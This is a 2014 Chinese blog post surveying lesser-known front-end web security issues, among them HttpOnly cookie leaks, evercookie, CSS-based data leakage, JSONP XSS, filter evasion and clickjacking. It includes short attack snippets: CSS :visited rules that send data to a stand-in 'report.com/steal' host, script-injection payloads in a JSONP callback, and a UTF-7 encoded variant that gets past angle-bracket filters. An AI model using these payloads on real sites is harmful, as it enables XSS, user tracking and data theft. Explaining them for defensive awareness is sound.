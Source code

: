 ```yaml
---
layout: post
title: "前端安全冷门知识杂谈"
date: 2014-05-27 23:52
comments: true
tags: 
	- web
---
```

###零、概述
提起web前端安全，大家都会想到两个名词：`xss`和`csrf`。             
抛去这最常见，最被广泛应用的两者，我想谈谈一些难以觉察的，比较偏门的安全关注点。               
大概分为以下章节：
> 盗取无法用js读写的Cookie                 
删不掉的本地存储                  
函数覆写监听上报                  
内存Cookie与硬盘Cookie                  
CSS带来的点击量泄露                  
JSONP回调函数与UTF-7编码                  
过滤与代码混淆                  
心理学与社会工程学                  

资料略多，文章较长，请自备瓜子…
<!-- more -->
###一、盗取无法用js读写的Cookie
为了防范xss获取Cookie，网络规范提供了HttpOnly Cookie机制，设置了该标志后，js脚本将无法读写该Cookie。但既然首先是“无法读”，如何“可以读”就成为了个有趣的话题。
```
setcookie("test", 1, time()+3600, "", "", 0); // 设置普通Cookie
setcookie("test_http", 1, time()+3600, "", "", 0, 1);// 第7个参数是HttpOnly 标志，0 为关闭(默认)，1 为开启
```
我们还是可以通过一些服务器上的漏洞去获取它们。

####2.1) 调试信息泄露
比较经典的是PHP的phpinfo文件：                    
![phpinfo文件](/assets/blogImg/safety_001.jpg)                                       
如果在部署服务时，没有删除这个默认的调试信息文件，将泄露服务器信息。其中包括HttpOnly Cookie。               
访问phpinfo.php，将看到：                
![Alt text](/assets/blogImg/safety_002.jpg)                              
其他的服务器，如python的Django，也有类似的调试信息文件，在外发时要注意清除。                  

####2.2) Apache 2.2.x版本请求头超长泄露
Cookies最大限制一般为4kb左右，如果请求头长度超过LimitRequestFieldSize，将会引发400错误。在Apache 2.2.x多个版本内，如果引发400(Bad Requerst)错误，会返回出错的请求头内容，这就包含了HttpOnly Cookie。
因此，我们可以利用这个漏洞，构造一个超长的请求，让Apache返回400，并用ajax捕获xhr.responseText即可获得HttpOnly Cookie信息。               
![Alt text](/assets/blogImg/safety_003.jpg)                    

###三、删不掉的本地存储
如果把浏览器理解为一个器官，把恶意标志比方做寄生虫。这标志通过某种途径寄生在了浏览器，并且"永久"寄生，这想想都很可怕。这个标志，可能是植入广告的跟踪标志，或者有其他用处，总之它依附到你的浏览器就删不掉了。                                               
但它是如何寄生的呢？又如何做到“永久”？这就涉及到本地存储安全。我们先看下常规的本地存储方案：
> Cookie - 是最常见的方式，key-value 模式                   
UserData - IE自己的本地存储，key-value 模式                   
localStorage - HTML5 新增的本地存储，key-value 模式                   
local Database -  HTML5 新增的浏览器本地DataBase，是SQLite 数据库                   
Flash Cookie Flash 的本地共享对象（LSO），key-value 模式，跨浏览器                   

除去这些，我还收集了一些比较“偏门”的存储方案：          
> Silverlight的IsolatedStorage - 类似HTML5 localStorage                   
PNG Cache，将Cookie 转换成RGB 值描述形式，以PNG Cache 方式强制缓存着，读入则以HTML5 的canvas 对象读取并还原为原来的Cookie 值                   
HTTP Etags、Web Cache - 本质上都是利用了浏览器缓存机制：浏览器会优先从本地读取缓存的内容                   
Web History，利用的是“CSS 判断目标URL 是否访问过”技巧，比如a标签访问过会显示紫色（新浏览器已fix）                   
window.name，本质就是一个DOM 存储，并不存在本地。                   

老外Samy Kamkar用半天开发了一个JavaScript API：[evercookie](http://en.wikipedia.org/wiki/Evercookie)。                    
该API利用了上面的全部存储手段，将“`永不丢失你的cookie`”贯彻到底…当evercookie发现用某种机制存储的cookie被数据将删除之后，它将利用其它机制创建的cookie数据来重新创建，让用户几乎不可能删除cookie。

###四、函数覆写监听上报
覆写函数，可以用于防范？这是网上安全论坛中有人提到的一个偏门要点。其缘由是：`搞跨站的人总习惯用alert来确认是否已成功跨站`，如果你要监控是否有人在测试你的网站xss的话，可以在你要监控的页面里覆写alert函数，记录alert调用情况。
```
function log(s) {
    var img = new Image();
    img.src = "http://yousite.com/log.php?caller=" + encodeURIComponent(s);
}

var _alert = alert;
window.alert = function(s) {
    log(alert.caller);
    _alert(s);
}
```
如此，就能在有人调用alert时，就执行上报，以供监控。好吧，这里还涉及人的心理学…                             
其实函数覆写无论攻还是防，都应该是我们关注的一个点。相关文章：《[浅谈javascript函数劫持](http://www.xfocus.net/articles/200712/963.html)》。

###五、内存Cookie与硬盘Cookie
`内存Cookie` - 指没有设置过期时间Expires的Cookie，随浏览器关闭，此Cookie在内存中销毁                              
`硬盘Cookie` - 设置了过期事件Expires的Cookie，常驻硬盘，直到过期

我们很容易得出结论：内存Cookie更安全。因此，某些站点会把`敏感信息放到内存Cookie`里面。这原本是没什么风险的，但恰巧会在遇到XSS的时候失控。试想下，XSS攻击者可以给内存Cookie加一个过期时间，使其变为硬盘Cookie，就会在未来很长一段时间内，甚至是永久控制着目标用户的账号权限。                  

因此，这里有两个关注点：                 
1. 敏感信息还是不要放Cookie里，即使是内存Cookie；              
2. 服务器要做Cookie的三个维度的校验 -  唯一性（是否验证通过）、完整性（是否被篡改了）、是否过期。               

###六、CSS带来的点击量泄露
在我们的印象中，前端安全基本是js带来的问题，但css也会有安全隐患吗？是的。除去IE下的css中执行js代码问题，还有另外一个关注点。                   
假如有一个开源组件，我们只看了下js源码，觉得没有漏洞风险，就直接拿过来使用了。况且，没有前端人员乐于去读别人的css的…但有某种极端的情况，css带来了意想不到的数据泄露。                    
试想这是一个`导航栏组件`，html代码是这样的：                 
```
<a href="http://yousite.com/a1" id="a1">nav1</a>
<a href="http://yousite.com/a2" id="a2">nav2</a>
<a href="http://yousite.com/a3" id="a3">nav3</a>
```
你忽略掉的css写成这样：                
```
#a1:visited {background: url(http://report.com/steal?data=a1);}
#a2:visited {background: url(http://report.com/steal?data=a2);}
#a3:visited {background: url(http://report.com/steal?data=a3);}
```
我们用到业务里，用户点击这三个导航后，a标签的visited伪属性生效，就会设置background，而背景的url其实是上报地址。这时候，你的业务的`点击数据量`就暴露给第三方了！                     
当然，这只针对旧版本浏览器，新版本浏览器都已fix这个问题。可是，HTML5的出现又让这个问题回归了…                                              
HTML5提供伪类`::selection`，当指定对象区域被选择时，就会触发。其原理跟上面类似。                         

###七、JSONP回调函数与UTF-7编码
####7.1) 基本原理 
在JSONP技术中，服务器通常会让请求方在请求参数中提供callback 函数名，而不是由数据提供方定制，如请求方发起请求：                                 
`cgi-bin/get_jsonp?id=123&call_back=some_function`                              
返回数据格式为：                                                  
`some_function([{'id':123, data:'some_data'}]);`                              
如果，数据提供方没有对callback函数名做安全过滤，就会带来XSS问题。                              
请求：                              
`cgi-bin/get_jsonp?id=123&call_back=<script>alert(1);</script>`
返回：                              
`<script>alert(1);</script>([{'id':123, data:'some_data'}]);`                              
所以，一般服务器都会对call_back参数进行过滤，但过滤的方法是否会存在漏洞呢？                              
####7.2) IE解析UTF-7漏洞
比较简单的过滤方法，是过滤`<>`字符，使得无法构成html标签。但在IE6\IE7的某些版本中，存在以下漏洞：**如果发现文件前面是“+/v8”开头，就把文件当做UTF-7解析**（IE7后续版本已发布补丁修复）。                       
在没被修复的IE版本中，如果我们将上面的请求用utf-7编码。再在前面加上"+/v8"头：                       
`cgi-bin/get_jsonp?id=123&callback=%2B%2Fv8%20%2BADw-script%2BAD4-alert(1)%2BADw-%2Fscript%2BAD4`                       
这时候巧妙的躲开了`<>`过滤，而返回：                       
`+/v8 +ADw-script+AD4-alert(1)+ADw-/script+AD4({‘id’=>123,data=>’some_data’});`                       
这时IE将这个jsonp文件当作utf-7解析，依然触发XSS。                       

###八、过滤与代码混淆
过滤器如果过滤了大部分的js函数，如eval、alert之类，是否就能保证安全呢？必然不是，我们还有强大的js代码混淆手段，可以绕过过滤器。这里推荐一个神奇的网站：[jsfuck](http://utf-8.jp/public/jsfuck.html)。                     
站名如其名，满满的恶意…它可以仅仅用6个字符：`[]()!+`去混淆编码js。而且兼容性特别的完善。以下是我在最新chrome下的截图，将一句`alert(1)`编码成了3009个字符，并执行成功：                              
![Alt text](/assets/blogImg/safety_004.jpg)                              
所以过滤器仅仅通过适配关键函数名，是不能保证安全性的。

###九、心理学与社会工程学
有个观点认为“一切钓鱼网站成功案例，都是一次心理学的实战演练”。在这个层面，可谓五花八门，创意百出。分享两个案例：
####9.1）诱导触发拖拽事件
比方说，有某已知漏洞，要用户触发拖拽事件才能触发。怎么搞定这个事情呢？                      
很简单，添加一张图片：                      
![Alt text](/assets/blogImg/safety_005.jpg)                      
注意这是一张图片，滚动条是图片的一部分而不是真正的浏览器控件，用户自然会去下拉“滚动条”，因而触发了这个漏洞。

####9.2) 传说中的QQ空间“传染病毒”
步骤是这样的：                    
1. A(始作俑者)发布了一条说说：`这个网站很好玩，快来试试吧~ http://xxx.xxx`                     
2. A的好友们看到了，打开了这个链接，玩了一下后，就关闭了页面                     
3. 好友们不知道，竟然自己的空间主动转发了这条说说（问题是自己没有点转发呀！）                     
4. 一传十十传百，越传越广…                     

但真实的情况跟CSRF没一点关系。玄妙在于：`好友们打开链接后干了什么事情？`                     
这个网站是一个小球在跳来跳去，网站上有一句话：你能点到我吗？                     
用户看到后，就很想去点击小球，看会发生什么；但点击后，就转发了说说…                     

有人会问，这不是CSRF吗？还真不是。做法却很简单：                     
“有趣”的网站内嵌了一个iframe，iframe加载的是这条说说的原页面，然后把“转发”按钮刚好放到小球的位置上，再把这iframe的透明度变为0。所以用户点击小球，其实是`点击了iframe中的转发按钮`。真是令人万万没想到。                     

以上。
End. 5.27 by litten.                                           
